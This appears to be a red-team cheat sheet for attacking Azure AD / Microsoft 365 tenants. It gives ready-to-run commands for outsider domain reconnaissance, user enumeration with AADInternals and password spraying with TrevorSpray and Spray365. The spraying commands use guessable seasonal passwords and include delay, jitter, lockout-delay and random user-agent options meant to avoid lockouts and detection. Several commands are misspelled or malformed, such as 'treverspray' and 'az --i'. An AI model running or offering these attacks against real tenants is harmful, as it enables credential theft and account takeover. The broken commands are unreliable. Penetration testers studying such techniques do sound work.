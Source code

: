 # External Enumeration
## AADIntReconAsOutsider
```powershell
Invoke-AADIntReconAsOutsider -DomainName hitbox.com | Format-Table
Get-Content .\Users.txt | Invoke-AADIntUserEnumerationAsOutsider -UserName
```

# Password Spray
## TrevorSpray
### Perform Recon
```cmd
trevorspray --recon target.com
```
### Perform Spray Against Users
```cmd
treverspray -u emails.txt -p 'Spring2020'
``` 
### Jitter Random Deviation of delay between requests
```cmd
trevorspray -u emails.txt -p 'Spring2020' -delay 60 -jitter 20 -lockout-delay 60
```
## Spray365
### Generate an execution plan
```cmd
python3 spray365.py generate --ep plan.365 -d <target.com> -u users.txt -p Spring2022
```
### Generate an execution plan - random user agent - delay 15s between requests
```cmd
python3 spray365.py generate --ep plan2.365 -d <target.com> -u users.txt -p Spring2022 -rUA -delay 15
```
### execute Plan
```cmd
python3 spray365.py spray --ep plan.365 <path_to_plan>
```

# Azure CLI
## login
```cmd
az login
```
## login - Submit Code flow credentials directly
```cmd
az login -u <user> -p <pass>
```
## login - Leveraged Identity
```cmd
az --i
```
## login - Use Device Code Flow
```cmd
az --device-code
```
## VMs
```cmd
az vm
```

## AADInternals
### Import AADInternals
```PowerShell
Import-Module AADInternals
```
### Domain Reconnaissance
```PowerShell
Invoke-AADIntReconAsOutsider -DomainName hitbox.com | format-table
```
### Domain User Enumeration
```PowerShell
Invoke-AADIntUserEnumerationAsOutsider -UserName "apark@hitbox.com"
```
### Domain User Enumeration - Logon Method
```PowerShell
Invoke-AADIntUserEnumerationAsOutsider -UserName "apark@hitbox.com" -method [normal,login,autologon]
```
### Domain User Enumeration - From List
```PowerShell
Get-Content C:/Recon/Users.txt | Invoke-AADIntUserEnumerationAsOutsider
```
